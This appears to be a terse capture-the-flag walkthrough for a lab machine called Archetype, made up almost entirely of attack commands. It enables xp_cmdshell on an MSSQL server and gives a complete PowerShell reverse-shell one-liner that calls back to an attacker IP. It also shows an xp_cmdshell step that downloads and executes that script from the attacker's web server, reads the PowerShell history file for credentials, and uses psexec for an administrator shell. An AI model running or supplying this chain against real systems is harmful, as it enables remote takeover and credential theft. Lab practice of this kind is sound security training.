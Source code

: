 # Connect to SQL

## Command

```bash
https://github.com/SecureAuthCorp/impacket
msqlclient.py ARCHETYPE/sql_@<IP_ADDR> -windows-auth
```

### Verify if sysadmin

```bash
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

## Enumerate the system

```powershell
 $client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Start mini-webserver

```bash
python -m http.server 80
```

## Start netcat allow ufw callbacks

```bash
nc -lvnp 443
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

## Execute reverse shell

```powershell
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

## See frequently used files

```bash
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Gain shell

```bash
https://github.com/SecureAuthCorp/impacket
psexec.py administrator@<IP_ADDR>
```
